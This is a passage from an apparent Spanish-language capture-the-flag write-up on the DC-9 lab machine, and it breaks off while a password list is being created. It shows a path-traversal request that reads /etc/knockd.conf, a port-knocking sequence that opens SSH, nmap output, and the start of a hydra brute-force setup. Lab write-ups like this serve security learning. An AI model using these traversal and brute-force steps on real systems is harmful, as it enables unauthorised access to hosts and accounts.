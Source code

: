 Tenemos exito, en el escaneo con nmap descubrimos que el puerto ssh estaba filtrado y lo que me viene a la cabeza es la tecnica de Port Knocking por lo que voy a ver los archivos de configuración de Knock

```bash
http://192.168.34.5/manage.php?file=../../../../../../../etc/knockd.conf
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2013.png)

Obtenemos la secuencia para introducir con knock

```bash
knock -v 192.168.34.5 7469 8475 9842
hitting tcp 192.168.34.5:7469
hitting tcp 192.168.34.5:8475
hitting tcp 192.168.34.5:9842
```

Compruebo que el puerto se haya abierto

```bash
nmap -sV 192.168.34.5               
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-17 19:20 CEST
Nmap scan report for example.com (192.168.34.5)
Host is up (0.00012s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:C1:23:27 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.54 seconds
```

con los usuarios obtenidos anteriormente realizo un ataque de fuerza bruta con hydra

creo fichero con usuarios

```bash
cat creds | cut -d ':' -f1 > users.txt
```

Creo fichero passwords

